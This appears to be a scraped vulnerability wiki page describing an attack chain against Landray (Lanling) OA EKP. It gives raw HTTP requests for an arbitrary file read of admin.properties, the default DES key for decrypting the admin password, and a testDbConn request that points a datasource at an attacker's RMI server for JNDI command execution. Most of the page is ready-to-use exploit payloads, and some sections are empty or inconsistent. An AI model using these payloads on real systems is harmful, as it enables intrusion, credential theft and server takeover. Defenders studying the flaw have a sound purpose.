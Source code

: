 # Lanling OA admin.do JNDI remote command execution

## Vulnerability Description

Shenzhen Lanling Software Co., Ltd. Digital OA (EKP) has an arbitrary file reading vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Lan Ling OA</span>

## Network surveying and mapping



## Vulnerability reappears

Read configuration files using `Lanling OA custom.jsp arbitrary file read vulnerability`

```plain
/WEB-INF/KmssConfig/admin.properties
```

Send a request packet

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/lanling-4.png)



After obtaining password, use the DES method to decrypt it. The default key is `kmssAdminKey`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/lanling-5.png)



Access the background address and log in with a decrypted password

```plain
https://xxx.xxx.xxx.xxx/admin.do
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/lanling-6.png)




</a-alert>
<br/>

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

Run the tool to listen to the port ping dnslog test command execution (Lan Ling OA uses JDK 1.7 by default)

```shell
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/lanling-7.png)